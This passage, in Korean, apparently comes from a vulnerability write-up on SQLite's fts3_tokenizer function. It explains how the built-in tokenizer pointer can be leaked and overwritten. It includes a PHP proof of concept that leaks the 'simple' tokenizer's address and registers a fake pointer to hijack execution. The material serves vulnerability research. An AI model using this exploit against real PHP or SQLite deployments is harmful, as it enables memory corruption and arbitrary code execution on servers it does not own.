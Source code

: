 ```php
 simpleDestroy,
 simpleOpen,
 simpleClose,
 simpleNext,
};
```

- `built-in tokenizer` 는 hash-table에 로드되며 해당 주소는 libsqlite3 의 .bss 섹션을 참조되고 있습니다.

### SQLite fts3_tokenizer(), fts3_tokenizer()

```php
SELECT fts3_tokenizer(<tokenizer-name>);
SELECT fts3_tokenizer(<tokenizer-name>, <sqlite3_tokenizer_module ptr>);
```

- 하나의 인수, 두 개의 인수로 fts3_tokenizer 함수를 호출할 수 있습니다. 첫 번째 인자는 해당 함수에서 `tokenizer`를 식별하는 문자열이며 `slqite3_tokenizer_module` 구조체에 대한 포인터입니다.
- 즉, 하나의 인수가 전달되면 현재 등록된 tokenizer 구현에 대한 포인터가 반환되고 두 번째 인수는 tokenizer를 등록할 사본이 반환되어 집니다.

## fts3 callback을 통한 임의의 코드 실행 취약점

- 앞서 취약한 부분의 쿼리인 `fts3_tokenizer` 두 번째 인자에 임의의 값을 입력한 경우 크래쉬가 발생한 것을 확인할 수 있습니다.

```php
<?php
ob_start();
echo getmypid();
echo str_repeat(" ", 0x1212);
ob_end_flush();
flush();

sleep(10);

function flip($val) {
  $len = strlen($val);
  $result = '';
  for ($i = $len; $i > 2; $i-=2) {
    $result .= substr($val, $i - 2, 2);
  }
  $result .= substr($val, 0, $i);
  $result .= str_repeat('0', 16 - $len);
  return $result;
}

$db = new SQLite3(":memory:");
$row = $db->query("select hex(fts3_tokenizer('simple')) addr;")->fetchArray();
$leaked_addr = $row['addr'];
echo "\n";
echo flip($leaked_addr);
echo "\n";
$db->close();

sleep(10);

$db = new SQLite3(":memory:");
$db->exec("select fts3_tokenizer('simple', x'4141414141414141');
        create virtual table a using fts3(tokenizer=simple);");

?>

```
